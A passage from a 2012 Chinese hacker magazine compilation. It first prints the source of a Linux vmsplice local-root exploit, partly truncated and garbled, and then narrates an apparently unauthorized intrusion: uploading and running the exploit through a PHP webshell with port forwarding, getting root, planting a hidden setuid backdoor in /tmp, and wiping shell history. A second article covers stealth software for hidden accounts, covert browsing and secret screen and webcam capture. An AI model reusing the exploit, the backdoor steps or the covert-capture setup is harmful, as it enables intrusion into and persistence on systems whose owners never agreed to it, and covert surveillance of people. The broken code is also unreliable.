# 黑客X档案合订本2012年（上）第二部分

---

# 一个人的战争

```c
#if defined(__i386__)
#ifndef __NR_vmsplice
#define __NR_vmsplice 316
#endif

#define USER_CS 0x73
#define USER_SS 0x7b
#define USER_FL 0x246

static inline
void exit_kernel()
{
    __asm__ __volatile__ (
        "movl %0, 0x10(%%esp);"
        "movl %1, 0x0c(%%esp);"
        "movl %2, 0x08(%%esp);"
        "movl %3, 0x04(%%esp);"
        "movl %4, 0x00(%%esp);"
        "iret"
        :
        : "i" (USER_SS), "r" (STACK(exit_stack)),
          "i" (USER_FL),
          "i" (USER_CS), "r" (exit_code)
    );
}

static inline
void* get_current()
{
    unsigned long curr;
    __asm__ __volatile__ (
        "movl %%esp, %%eax;"
        "andl %1, %%eax;"
        "movl (%%eax), %0"
        : "=r" (curr)
        : "i" (-8192)
    );
    return (void*) curr;
}

#elif defined(__x86_64__)
#ifndef __NR_vmsplice
#define __NR_vmsplice 278
#endif

#define USER_CS 0x23
#define USER_SS 0x2b
#define USER_FL 0x246

static inline
void exit_kernel()
{
    __asm__ __volatile__ (
        "swapgs;"
        "movq %0, 0x20(%%rsp);"
        "movq %1, 0x18(%%rsp);"
        "movq %2, 0x10(%%rsp);"
        "movq %3, 0x08(%%rsp);"
        "movq %4, 0x00(%%rsp);"
        "iretq"
        :
        : "i" (USER_SS), "r" (STACK(exit_stack)),
          "i" (USER_FL),
          "i" (USER_CS), "r" (exit_code)
    );
}

static inline
void* get_current()
{
    unsigned long curr;
    __asm__ __volatile__ (
        "movq %%gs:(0), %0"
        : "=r" (curr)
    );
    return (void*) curr;
}

#else
#error "Unsupported arch"
#endif

#if defined(__syscall4)
#define __NR_vmsplice __NR_vmsplice
_syscall4(
    long, vmsplice,
    int, fd,
    struct iovec *, iov,
    unsigned long, nr_segs,
    unsigned int, flags)
#else
#define vmsplice(fd,iov,nr,fl) syscall(__NR_vmsplice, (fd), (iov), (nr), (fl))
#endif

static uid_t uid, gid;

void kernel_code()
{
    int i;
    uid_t *p = get_current();

    for (i = 0; i < 1024-13; i++) {
        if (p[0] == uid && p[1] == uid && p[2] == uid &&
            p[3] == uid && p[4] == gid && p[5] == gid &&
            p[6] == gid && p[7] == gid) {
            p[0] = p[1] = p[2] = p[3] = 0;
            p[4] = p[5] = p[6] = p[7] = 0;
            break;
        }
    }
}

ptr += ...

exit_kernel();
}

void exit_code()
{
    if (getuid() != 0)
        die("wtf", 0);

    printf("[+] root\n");
    putenv("HISTFILE=/dev/null");
    execl("/bin/bash", "bash", "-i", NULL);
    die("/bin/bash", errno);
}

int main(int argc, char *argv[])
{
    int pi[2];
    size_t map_size;
    char *map_addr;
    struct iovec *iov;
    struct page *pages[5];

    uid = getuid();
    gid = getgid();
    setresuid(uid, uid, uid);
    setresgid(gid, gid, gid);

    printf("========================================\n");
    printf("= Linux vmsplice Local Root Exploit =\n");
    printf("= By qaaz =\n");
    printf("========================================\n");

    if (!uid || !gid)
        die("id is 0", 0);

    /*****
    pages[0] = *(void **) &(int[2]){0, PAGE_SIZE};
    pages[1] = pages[0] + 1;

    map_size = PAGE_SIZE;
    map_addr = mmap(pages[0], map_size, PROT_READ | PROT_WRITE,
                    MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (map_addr == MAP_FAILED)
        die("mmap", errno);

    memset(map_addr, 0, map_size);
    printf("[+] mmap: 0x%lx - 0x%lx\n", map_addr, map_addr + map_size);
    printf("[+] page: 0x%lx\n", pages[0]);
    printf("[+] page: 0x%lx\n", pages[1]);

    pages[0]->flags   = 1 << PG_compound;
    pages[0]->private = (unsigned long)pages[0];
    pages[0]->count   = 1;
    pages[1]->lru.next = (long) kernel_code;

    /*****
    pages[2] = *(void **) pages[0];
    pages[3] = pages[2] + 1;

    map_size = PAGE_SIZE;
    map_addr = mmap(pages[2], map_size, PROT_READ | PROT_WRITE,
                    MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (map_addr == MAP_FAILED)
        die("mmap", errno);

    memset(map_addr, 0, map_size);
    printf("[+] mmap: 0x%lx - 0x%lx\n", map_addr, map_addr + map_size);
    printf("[+] page: 0x%lx\n", pages[2]);
    printf("[+] page: 0x%lx\n", pages[3]);

    pages[2]->flags   = 1 << PG_compound;
    pages[2]->private = (unsigned long)pages[2];
    pages[2]->count   = 1;
    pages[3]->lru.next = (long) kernel_code;

    /*****
    pages[4] = *(void **) &(int[2]){PAGE_SIZE, 0};

    map_size = PAGE_SIZE;
    map_addr = mmap(pages[4], map_size, PROT_READ | PROT_WRITE,
                    MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (map_addr == MAP_FAILED)
        die("mmap", errno);

    memset(map_addr, 0, map_size);
    printf("[+] mmap: 0x%lx - 0x%lx\n", map_addr, map_addr + map_size);
    printf("[+] page: 0x%lx\n", pages[4]);

    /*****
    map_size = (PIPE_BUFFERS * 3 + 2) * PAGE_SIZE;
    map_addr = mmap(NULL, map_size, PROT_READ | PROT_WRITE,
                    MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    if (map_addr == MAP_FAILED)
        die("mmap", errno);

    memset(map_addr, 0, map_size);
    printf("[+] mmap: 0x%lx - 0x%lx\n", map_addr, map_addr + map_size);

    /*****
    map_size = 2 * PAGE_SIZE;
    if (munmap(map_addr + map_size, PAGE_SIZE) ...)
```



这个是今年比较新的一个exp，所以使用 `gcc xx.c -o xx.exe` 将C程序编译为可执行的exe文件，传到shell的目录，然后赋予exp文件可执行的权限，输入 `chmod +w +x xx.exe`。上传一个pr.sh到shell目录，进行端口转发连接，这里重新更换一个php大马，直接使用php木马自带的端口转发功能，不必再用nc进行端口监听。如图44所示：

之后就可以用gcc来编译c文件，命令如：`gcc -o exp exp.c`（把exp.c编译成exp）。因为是编译好的，文章中就不截图了。还是上传文件至服务器shell所在目录，执行命令 `ls`，发现文件已经躺在那里了，之后赋予exp执行权限。

- `chmod +x boynexp.c`
- `chmod +x boynexp_exnpit.sh`
- `chmod +x exploit.c`

之后执行溢出，成功溢出，root权限，如图45：





之后就是留下一个后门，依次输入命令：

- `cd /tmp`
- `sh-3.1# ls /lib/ld-linux*`
- `/lib/ld-linux.so.2`
- `sh-3.1# cp /lib/ld-linux.so.2 /tmp/.shkeydeven`
- `sh-3.1# ls -l .shkeydeven`
- `-rwxr-xr-x 1 root root 121684 04-29 13:33 .shkeydeven`
- `sh-3.1# chmod +s .shkeydeven`
- `sh-3.1# ls -l .shkeydeven`
- `-rwsr-sr-x 1 root root 121684 04-29 13:33 .shkeydeven`

成功建立一个后门，退出root，执行 `./.shkeydeven \`which whoami\``，又成功获取root权限，如图46：


提权至此结束。

输入 `sh xx.xx.xx.xx port号`。过十几秒显示端口转发成功，直接在本地的cmd窗口中的`$`后面进行命令操作，运行编译好的sh，输入 `./xx.sh`，回显溢出成功，出现可爱的`#`，这里用putty远程连接，进一步确认，输入 `id`，回显直接告诉你，你现在已经是root。如图47：



获取系统最高权限，可以对服务器进行任意操作。至此，渗透结束，对于管理，本想发送bug修复的相关补丁，貌似没见管理的邮箱，不取财，不改页面，不删文件，不挂马，清扫路面，clear history，断开ssh，立马闪人。

## ■ 电脑操作，我要隐形化 ■

郭建伟

在一般情况下，我们在电脑上所做的各种操作都是可见的，这里所说的可见性是指和电脑操作相关的对象和数据是可以直接观察到的。但是在某些情况下，出于系统安全性的考虑，我们往往执行一些不可见或者说是隐形的操作。这里列举了常见的隐形操作技巧，包括在Windows中巧建隐形账户、实现隐形网页浏览、文件隐形加密、为桌面设置“隐形照相机”、隐形加密Excel文档、为笔记本电脑安装“隐形警报器”、文件夹快速隐形、伪装MAC地址、隐形上网冲浪等。

### 一、在Windows中巧建隐形账户

为了提高系统的安全性，我们往往希望创建隐形账户，在该账户环境中的一切操作来说，对于其它用户都是不可见的，这就巧妙地避免了信息的泄露。使用Hidden Desktop这款独特的安全软件，就可以轻松创建隐形Windows账户。Hidden Desktop安装之后会将自身隐藏起来，在系统中是无法找到其踪迹的。同时在系统中创建名称为“Profile Monitor”的服务，可以跟随系统启动。Hidden Desktop初次运行时，会弹出向导设置界面，在其中的“Step 1”窗口中显示隐形账户的激活热键为“Ctrl+Alt+K”；在下一步窗口中输入隐形账户的名称和密码，之后点击“Next”按钮完成隐形账户的创建操作。

点击“Ctrl+Alt+K”键，在登录窗口中输入隐形账户密码，在操作类型窗口中点击“Switch to your hidden desktop”项，在Windows登录界面中点击隐形账户名称，输入密码后即可进入隐形账户环境中。当您重新切换到正常账户时，Hidden Desktop可以将隐形账户彻底激活。别人使用任何方法都无法发现该隐形账户。

使用隐形账户有两种方法，其一是在Windows登录界面中点击“Ctrl+Alt+K”键，即可让该隐形账户“现身”，点击该账户，输入密码后即可登录到隐形桌面中。其二是在其它账户环境中点击“Ctrl+Alt+K”键，输入隐形账户密码后，在弹出面板中选择“Switch to your hidden desktop”项来进入隐形桌面。在隐形账户环境中的所有操作，对于其它账户来说完全是不可见的。在默认情况下，20分钟内没有操作电脑，Hidden Desktop就会强制关闭所有程序并完成账户注销操作。在该隐形账户环境中点击“Ctrl+Alt+K”键，在其管理窗口（如图1）左侧点击“Hidden desktop options”项，在右侧窗口中的“Force logoff if inactive for X minutes”栏中可以更改自动注销时间。如果在窗口左侧点击“Change password”项，可以更改该隐形账户的登录密码。



图1

当需要彻底卸载Hidden Desktop时，在其管理窗口左侧点击“Tools”项，在右侧窗口（如图2）中点击“Uninstall”链接即可将其彻底卸载（需要输入预设密码），同时将隐形账户恢复为正常账户。点击“Delete the hidden desktop”链接，可以强制删除和隐形账户相关的所有数据。点击“Permanently make the hidden desktop visible”链接，可以将其转换成普通账户。



图2

### 二、让网络浏览披上“隐身衣”

在某些场合，我们常常希望不露痕迹地浏览网页，一般的浏览器是无法提供该功能的。使用Ghostzilla这款独特的浏览器，即可让您轻松隐形冲浪。Ghostzilla运行后是看不到运行界面的，当需要使用其浏览网页时，可以将鼠标指针移动到屏幕左侧，再移动到屏幕右侧，然后再移动到屏幕左侧（可以多尝试几次），之后就可以打开Ghostzilla的主界面了。为了加强运行的隐藏性，Ghostzilla的主窗口会直接嵌入到当前活动窗口中（如图3），如果不注意观察的话根本注意不到Ghostzilla的存在。如何浏览网页呢？在Ghostzilla窗口标题栏上点击“Open”按钮，在弹出的……“Open Web Location”对话框中输入网址信息，在“Open in”列表中选择网页打开的方式，包括在当前的内嵌页面中打开和在新建内嵌页面中打开。点击“Open”按钮即可在Ghostzilla主窗口浏览网页了。为了不引起别人的注意，Ghostzilla的网页显示页面是以灰色为背景，字体是浅灰色的。网页中的图片默认是不显示的，只有将鼠标指向其位置时才显示出图片内容。隐藏Ghostzilla浏览页面的内容很简单，将鼠标移动到其浏览界面之外点击即可。Ghostzilla提供了强大的隐形功能，在其主窗口标题栏上点击“Setup”按钮，在弹出菜单中可以看到Ghostzilla内置了6级隐藏级别，范围从“Hiding Level 1”到“Hiding Level 6”项，选择等级越高隐藏的效果越好。当需要退出Ghostzilla时，首先需要打开其主窗口，之后点击“Ctrl+Q”键即可执行退出操作。

……主文件，这样机密数据就保存到了宿主文件中，同时又不影响其正常使用。如何从宿主文件中提取加密数据呢？在OurSecret主窗口右侧的“Step1: Specify a carrier file”栏中点击浏览按钮，选择目标宿主文件，在“Step 2: Enter password”栏中输入密码，点击“Unhide”按钮，即可将保存在其中的加密文件或机密数据提取出来，并将其显示在文件列表中，在文件列表中双击对应的文件，可以将其保存为独立的文件。双击对应的机密消息，在弹出的窗口中可以显示其内容。



图3



图4

### 三、文件加密我要隐形化

保护重要文件的最好方法是对其进行加密；为了避免暴露加密的痕迹，最好的方法是将其隐藏在其它文件中，同时启用密码保护机制。使用OurSecret这款独特的加密软件，就可以实现文件的隐身加密功能。OurSecret的使用方法很简单，在其主窗口（如图4）左侧的“Step 1: Select a carrier file”栏中点击浏览按钮，选择任意类型的宿主文件。之后点击“Add”按钮，在弹出的窗口选择“File”项，表示针对文件加密；在下一步窗口中选择需要加密的文件即可。选择“New Message”项，表示对消息进行加密，在下一步窗口中输入具体的文本信息即可，中文的信息标题会以乱码显示，但是不影响使用。按照上述方法，您可以在宿主文件中添加任意数量的文件或者文本数据。最后在“Step3: Password”栏中输入密码，点击“Hide”按钮，在保存窗口中单独保存宿主文件，也可以直接覆盖原始宿主文件。

### 四、为桌面装个“隐形照相机”

为了防止别人随意操作本机，最好的办法就是在您离开时对本机进行监控。使用Hidden Recorder这款小巧的监控软件，可以定时对桌面进行拍照，让您可以直观地了解别人在本机上的所有举动。Hidden Recorder安装完成后，不会在系统中留下任何痕迹信息，同时可以跟随系统自动运行。打开“C:\Program Files\Oleansoft\HR”文件夹，运行“HR.EXE”文件即可启动。Hidden Recorder在系统后台运行，并按照预设的频率进行抓图操作了。点击热键“Ctrl+F1”键，打开其控制窗口。在窗口底部显示已经抓取的图片数量，在窗口中部可以查阅抓取的图片。点击“Full Screen”按钮，可以全屏查看图片。点击保存按钮，可以将当前的图片导出为JPG文件。点击菜单“Properties”→“Settings”，在设置窗口（如图5）中的“Capture”面板中选择“Webcam”项，表示抓取摄像头画面；选择“PC screen”项，表示抓取桌面图片；选择“Both”项，表示同时抓取以上画面。在其下的“Interval, secs”栏中分别设置抓取的时间间隔（默认为60秒）。如果选择“Full screen”项，表示抓取全屏幕；选择“Active windows”项，表示只抓取活动窗口。在“Picture quality”栏中拖动滑块，可以调整抓取图片的质量。在“Archive folder for screenshots”栏中可以设置图片的保存位置，默认保存在其安装路径下的“Archive”文件夹中。抓图文件无法直接查看，只能使用其自带的图片浏览器才能查看。勾选“Disk space limit”项，在其后设置磁盘容量限制，当磁盘剩余空间小于该值时，将停止抓图操作。在“Button combination for Viewer”面板中可以更改激活热键。之后点击OK按钮保存设置信息。为了防止别人随意查阅抓取的图片，可以点击菜单“Properties”→“Password”项，为其配置登录密码，这样，点击预设热键打开Hidden Recorder时，必须输入该登录密码。当需要结束抓图操作时，在其配置窗口中点击菜单“Properties”→“Stop capture”项即可。下载地址：http://www.oleansoft.com/download/hiddenrecorder.zip。

## 五、让Excel文档加密实现“隐形化”

对于重要的Excel文档，最好进行加密处理。Excel自带的加密功能比较简单，相比之下，使用NCrypt XL这款独特的Excel加密软件，可以让加密后的Excel文档仍然可以使用，不过其中的数据已经变得杂乱无章；让人误以为找错了文件，从而巧妙地保护文档的内容。



